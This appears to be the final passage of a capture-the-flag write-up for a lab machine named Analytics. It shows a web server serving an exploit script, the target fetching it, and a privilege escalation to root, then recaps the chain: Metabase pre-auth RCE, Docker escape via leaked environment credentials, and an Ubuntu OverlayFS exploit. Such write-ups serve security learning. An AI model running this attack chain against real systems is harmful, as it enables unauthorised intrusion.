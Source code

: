 ```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                             
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.233 - - [21/Oct/2023 12:22:01] "GET /exploit.sh HTTP/1.1" 200 -
```

After the transfer, we set up a simple web server to serve the exploit script. The target system fetched the script via `HTTP`.

```
metalytics@analytics:~$ chmod +x exploit.sh 
metalytics@analytics:~$ 
metalytics@analytics:~$ id; whoami
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
metalytics
metalytics@analytics:~$ 
metalytics@analytics:~$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:~# 
root@analytics:~# id; whoami
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
root
root@analytics:~# 

```

Finally, we made the exploit script executable and ran it. As a result, we obtained a `root` shell, confirming successful privilege escalation.

# CONCLUSION

Our journey started with exploiting a pre-authentication **Remote Code Execution** (`RCE`) vulnerability in `Metabase`. This allowed us to make initial progress.

We then found ourselves in a `Docker` shell, but we didn't stop there. We discovered hardcoded credentials in `environment` variables, which helped us break free from the Docker environment.

To achieve full control of the system, we took advantage of a vulnerability in `OverlayFS` specific to `Ubuntu`, elevating our privileges to the `root` level.

And that's a wrap for this box! 

Thank you for reading along on this adventure. See you in the next one.
